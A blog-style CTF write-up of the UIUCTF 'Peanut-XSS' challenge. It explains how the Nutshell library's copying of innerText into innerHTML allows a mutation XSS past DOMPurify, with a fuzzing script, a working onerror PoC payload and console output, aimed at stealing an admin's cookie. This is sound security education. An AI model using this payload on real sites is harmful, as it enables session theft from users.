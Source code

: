 ```yaml
---
layout: post
title: "UIUCTF - Peanut-XSS"
date: 2024-07-15
tags: [ctf, web, xss, mutation-xss, 0day]
category_icon: "🥜"
---
```


# Peanut-XSS 

Peanut-XSS from UIUCTF included a 0day in [Nutshell](https://github.com/ncase/nutshell). Just like any other client-side challenge, the goal was to trigger an XSS and steal **document.cookie** from the admin. 

Nutshell uses the open-source libraries DOMPurify & Marked. But ofcourse, the goal was not to find a bypass in DOMPurify, rather it was something realted to how Peanut was handling the user input. 

```js
 <script
      src="https://cdn.jsdelivr.net/gh/ncase/nutshell@v1.0.06/nutshell.js"
      integrity="sha512-M2fB+hjUmLSY45qhwo1jQlOHhkxVJEGbWfHtJBV4WtKGS6KN2LsWLINTYkQZHlSqU5NUHBUw8Vl2tUJK2OwKDA=="
      crossorigin="anonymous"
      referrerpolicy="no-referrer"
 ></script>
 ```

It was also clear that this is a 0day since it was using the latest version. 

I was focusing on **DOM-Clobbering**, spent a lot of time doing so (I believe others did too) trying to find something that was being controlled from the user side, without success. 


# Finding the 0day

The code has a built-in features where it converts an **anchor** innerText to a **span** tag pointing to another built-in class **nutshell-expandable-text** using  ```let linkText = document.createElement('span') ```

 ```js
      expandables.forEach((ex)=>{
            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");
            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
 ```

It then inserts the innerText into **linkText.innerHTML**, which makes room for possible injection. One issue though: **DOMPurify**, I started playing around, fuzzing etc.. 

# Hunting for Easy Wins

While exploring this, I made a script to fuzz common XSS payloads, while testing the logic manually

 ```js
function sanitizeHTML(payload) {
  const sanitizedPayload = DOMPurify.sanitize(payload);
  return sanitizedPayload;
}

fetch('https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt')
  .then(response => response.text())
  .then(payloads => {
    const payloadArray = payloads.split('\n');

    payloadArray.forEach((payload, index) => {
     
      const modifiedPayload = '<a href="xx">:' + payload + '</a>';
      const sanitizedPayload = sanitizeHTML(modifiedPayload);
      setTimeout(() => {
         console.log("trying: " + payload);
        document.body.innerHTML = sanitizedPayload;
      }, 500 * index); 
    });
  })
  .catch(error => console.error('Error fetching the XSS payload list:', error));
 ```

Which came back with nothing interesting. 

# Mutation XSS 


Peanut is a case where expressions and HTML are parsed and modified (into <span>), leading to DOM modification. As a result, filtered reflected input that goes through an HTML filter has the potential to transform into mXSS. 

Since mXSS is very common when DOMPurify is present, I've [found](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss) a very cool article that is similar to the case. 


## PoC 

```html
<a href="xss">:"&lt;img src=1 onerror=alert(1)&gt;"></a>
```

The above payload actually works, again this wasn't a bypass against DOMPurify but was an issue of how Peanut hadnled the user input. 

We can actually confirm that via dev-tools: 


```js

> DOMPurify.sanitize('<a href="xss">:"&lt;img src=1 onerror=alert(1)&gt;"></a>');
'<a href="xss">:"&lt;img src=1 onerror=alert(1)&gt;"&gt;</a>'
> const xss = document.getElementsByClassName("nutshell-expandable-text");
undefined
> xss[0]
<span class="nutshell-expandable-text">Nutshell</span>
> xss[1]
<span class="nutshell-expandable-text">"""<img src="1" onerror="alert(1)">"">"</span>
```

Crafting a **fetch**, we've got the flag! 